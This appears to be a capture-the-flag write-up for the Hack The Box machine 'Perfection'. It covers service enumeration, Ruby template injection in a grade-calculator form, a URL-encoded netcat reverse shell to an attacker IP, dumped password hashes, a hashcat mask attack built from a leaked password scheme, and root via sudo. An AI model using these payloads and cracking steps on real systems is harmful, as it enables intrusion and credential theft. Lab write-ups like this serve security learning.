

# Perfection

#### Service Enumeration

```bash
nmap 10.10.11.253 -T5 -A -p- -sV -sC

PORT   STATE SERVICE VERSION                                                                            
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)                       
| ssh-hostkey:                                                                                          
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)                                         
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)                                       
80/tcp open  http    nginx                                                                              
|_http-title: Weighted Grade Calculator                                                                 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Directory Enumeration

```bash
dirsearch -u http://10.10.11.253

[21:17:12] 200 -    4KB - /about 
```


Upon browsing to the HTTP service hosted on the machine, I am able to see there are more directories than first discovered by our initial dirsearch.

<figure><figcaption><p><a href="http://10.10.11.253/weighted-grade">http://10.10.11.253/weighted-grade</a></p></figcaption></figure>

Filled the form and sent the intercept to repeater.

<figure><figcaption><p><a href="http://10.10.11.253/weighted-grade">http://10.10.11.253/weighted-grade</a></p></figcaption></figure>

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.253/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 174
Origin: http://10.10.11.253
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

category1=Math&grade1=1&weight1=20&category2=Math&grade2=1&weight2=20&category3=Math&grade3=1&weight3=20&category4=Math&grade4=1&weight4=20&category5=Math&grade5=1&weight5=20
```


Encoded a netcat reverse shell payload via URL in Burp Suite's Decoder.

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.9 4444 >/tmp/f
```

Encoded in URL

```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%39%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```


Modified Repeater POST request

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.11.253/weighted-grade
Content-Type: application/x-www-form-urlencoded
Content-Length: 412
Origin: http://10.10.11.253
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

category1=a%0A<%25%3dsystem("%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%34%2e%39%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66");%25>&grade1=1&weight1=20&category2=Math&grade2=1&weight2=20&category3=Math&grade3=1&weight3=20&category4=Math&grade4=1&weight4=20&category5=Math&grade5=1&weight5=20
```


Started netcat and sent the payload which returned a shell.

```bash
nc -nvlp 4444
```

<figure><figcaption><p>NetCat Listener</p></figcaption></figure>

```bash
ls -las
```

<figure><figcaption></figcaption></figure>

```bash
cat user.txt
```

<figure><figcaption></figcaption></figure>

The database file in \~/Migrations contains hashes for users which can be ran against Rockyou.txt via hashcat.

```bash
susan@perfection:~/Migration$ strings pupilpath_credentials.db

SQLite format 3
tableusersusers
CREATE TABLE users (
id INTEGER PRIMARY KEY,
name TEXT,
password TEXT
Stephen Locke154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8S
David Lawrenceff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87aP
Harry Tylerd33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393O
Tina Smithdd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57Q
Susan Millerabeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f

```

The password schema for users can be found in /var/mail

```bash
susan@perfection:/var/mail$ cat susan

Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

Now knowing the password schema, and possessing a hash, lets attempt to crack it.&#x20;

```bash
hashcat -m 1400 susan_hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d --show
```

<figure><figcaption></figcaption></figure>

Switching to root using sudo su and entering the cracked password we have been granted access to login as root.

<figure><figcaption></figcaption></figure>
